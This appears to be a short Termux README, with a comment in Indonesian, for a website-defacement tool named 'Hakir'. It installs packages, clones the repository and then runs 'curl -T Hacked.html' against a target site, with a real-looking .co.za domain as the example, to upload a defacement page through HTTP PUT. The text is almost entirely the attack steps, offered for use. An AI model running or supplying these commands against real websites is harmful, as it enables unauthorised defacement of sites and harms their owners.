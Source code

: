 
$ pkg update


$ pkg upgrade


$ pkg install curl


$ pkg install libcurl


$ pkg install git


$ git clone https://github.com/Kentcoyj/Hakir


$ cd Hakir


$ curl -T Hacked.html Target(example: https://sus.co.za/)




# Kalau saat Kalian curl -T Tidak Berhasil Pakai Cara Dibawah

$ curl -T /Hakir/Hacked.html target

